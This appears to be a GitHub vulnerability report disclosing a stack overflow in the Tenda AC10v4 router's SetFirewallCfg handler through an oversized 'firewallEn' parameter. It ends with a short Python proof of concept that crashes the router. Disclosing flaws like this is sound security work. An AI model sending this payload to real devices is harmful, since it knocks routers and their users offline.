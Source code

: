 # Notification of Stack Overflow Vulnerability in Tenda AC10v4 Router (Version V16.03.10.13) by Shenzhen Tenda Technology 

Router Firmware Download: [https://www.tenda.com.cn/material/show/103506](https://www.tenda.com.cn/material/show/103506)
Vulnerability URL：http://192.168.100.135/goform/SetFirewallCfg

The vulnerability occurs at the function `formSetFireWallCfg`.

![image](https://github.com/xubeining/Cve_report/blob/main/photoforstackoverflow1.png)
![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow2.png)

The program retrieves the user input parameter "firewallEn" but does not perform size checks.  
When the parameter input is too large, it causes a stack overflow, leading to a crash or potential exploitation.  
The issue is located in the `formSetFireWallCfg` function, which is referenced by `formDefineTenDa` at line 28.

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow3.png)

The issue can be further cross-referenced to `FUN_0043b3d8`, with particular attention to lines 50 and 53.

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow4.png)

The vulnerability occurs on the page path: `goform/SetFirewallCfg`.

## Now, let's proceed with the reproduction.

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow5.png)

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow6.png)

Now, run the script.

![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow7.png)
![image](https://github.com/xubeining/Cve_report/blob/main/photostackoverflow8.png)

The router crashes, and the website becomes inaccessible.

## Payload
```python
import requests

url = "http://192.168.100.135/goform/SetFirewallCfg"
payload = {
    'firewallEn': b'a' * 100000
}
res = requests.post(url=url, data=payload)
